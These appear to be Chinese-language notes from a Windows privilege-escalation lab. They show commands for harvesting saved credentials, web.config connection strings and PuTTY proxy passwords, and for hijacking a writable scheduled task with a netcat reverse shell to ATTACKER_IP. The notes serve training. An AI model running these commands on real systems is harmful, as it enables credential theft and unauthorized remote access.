 **保存的 Windows 凭据**

cmdkey /list

runas /savecred /user:admin cmd.exe
**IIS 配置**

我们可以在以下位置之一找到 web.config：  
C:\inetpub\wwwroot\web.config
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\Config\web.config

这是在文件上查找数据库连接字符串的快速方法：  
type C:\Windows\Microsoft.NET\Framework64\v4.0.30319\Config\web.config | findstr connectionString
>从软件检索凭证：PuTTY

要检索存储的代理凭据，您可以使用以下命令在以下注册表项下搜索 ProxyPassword：

reg query HKEY_CURRENT_USER\Software\SimonTatham\PuTTY\Sessions\ /f "Proxy" /s

>计划任务

查看目标系统上的计划任务，您可能会看到计划任务丢失了其二进制文件或正在使用您可以修改的二进制文件。

schtasks 可以使用不带任何选项的命令从命令行列出计划任务 。要检索有关任何服务的详细信息，您可以使用如下命令：
``````
命令提示符
C:\> schtasks /query /tn vulntask /fo list /v
Folder: \
HostName:                             THM-PC1
TaskName:                             \vulntask
Task To Run:                          C:\tasks\schtask.bat
Run As User:                          taskusr1
``````
您将获得有关该任务的大量信息，但对我们来说重要的是“要运行的任务”参数，该参数指示计划任务执行的内容，以及“以用户身份运行”参数，该参数显示将使用的用户执行任务。

如果我们当前的用户可以修改或覆盖“要运行的任务”可执行文件，我们就可以控制 taskusr1 用户执行的内容，从而实现简单的权限提升。要检查可执行文件的文件权限，我们使用icacls：
``````
命令提示符
C:\> icacls c:\tasks\schtask.bat
c:\tasks\schtask.bat NT AUTHORITY\SYSTEM:(I)(F)
                    BUILTIN\Administrators:(I)(F)
                    BUILTIN\Users:(I)(F)
``````
从结果中可以看出，BUILTIN\Users组对任务的二进制文件具有完全访问权限 (F)。这意味着我们可以修改 .bat 文件并插入我们喜欢的任何有效负载。为了您的方便，nc64.exe可以在 上找到C:\tools。让我们更改 bat 文件以生成反向 shell：
``````
命令提示符
C:\> echo c:\tools\nc64.exe -e cmd.exe ATTACKER_IP 4444 > C:\tasks\schtask.bat
``````
然后，我们在攻击者机器上启动一个侦听器，该侦听器位于我们在反向 shell 上指示的同一端口上：  
``````
nc -lvp 4444
``````
下次运行计划任务时，您应该会收到具有taskusr1权限的反向shell。虽然您可能无法在实际场景中启动任务，而必须等待计划任务触发，但我们为您的用户提供了手动启动任务的权限，以节省您的时间。我们可以使用以下命令运行该任务：
``````
命令提示符
C:\> schtasks /run /tn vulntask
``````
